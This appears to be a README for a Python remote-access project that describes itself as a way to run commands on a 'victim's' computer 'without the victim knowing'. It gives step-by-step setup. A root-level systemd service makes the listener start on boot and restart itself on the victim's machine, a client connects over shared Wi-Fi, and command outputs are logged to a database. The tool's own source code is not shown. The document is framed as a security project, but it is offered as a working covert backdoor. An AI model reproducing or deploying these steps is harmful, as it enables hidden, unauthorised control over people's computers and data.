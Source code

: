 This repository is a cyber security project of mine, it is not very comprehensive yet it is effective, it allows you to do various operations without the victim knowing. You can create or remove directories, install applications and browse the victim's computer. Only drawback is you have to be in the same wifi with the victim.
You can set this up by following the steps I provided.


## Requirements

To run this project, you will need the following:

-Python 3.x installed on both the server and client machines.

-SQLite3 (included with Python).

-Basic knowledge of using a terminal or command line interface.


## Files Included

client.py: The client script to send commands to the server.

server.py: The server script to receive and execute commands.

createDb.py: A script to create the SQLite database and table.

view_Db.py: A script to view the contents of the database.

command_outputs.db: The SQLite database where command outputs are stored. (you should run the createDb.py on the terminal for this to show up).

**-> Windows: python createDb.py Linux/Mac: python3 createDb.py**


## Step 1: Edit client.py

In the client.py file, update the IP address to the IP address of the server machine (victim's machine).

**client_socket.connect(('192.168.169.117', 12345)) #Example**


## Step 2: Run createDb.py

Run the create_db.py script on the client machine to create the SQLite database and table.

**python3 create_db.py**

You can delete this and create it again to reset the database.

**rm createDb.py**


## Step 3.1: Setup the Server

On the server machine, create a systemd service to ensure the server script runs on boot.

**sudo nano /etc/systemd/system/server.service**


## 3.2: Add the following content to the file

[Unit]

Description=Start Server Script

After=network.target


[Service]

ExecStart=/usr/bin/python3 /path/to/server.py

WorkingDirectory=/path/to/

StandardOutput=inherit

StandardError=inherit

Restart=always

User=root


[Install]

WantedBy=multi-user.target

Replace /path/to/ with the actual path where server.py is located.


## 3.3: Reload the systemd daemon and start the service:

**sudo systemctl daemon-reload**

**sudo systemctl start server.service**

**sudo systemctl enable server.service**


## Step 4: Running the Client

Run the command '**python3 client.py**' on your terminal while you are on your projects directory -> .../Desktop/client.py

Enter the command you want to execute on the server machine. The output will be displayed and stored in the SQLite database.


## Step 5: Reviewing the Database

To view the contents of the database, run the viewDb.py script on the client machine.

**python3 view_db.py**

This will print the stored command outputs.



That's all, you can find more commands for your needs in the text file I added named 'serverServiceCommand.txt' 

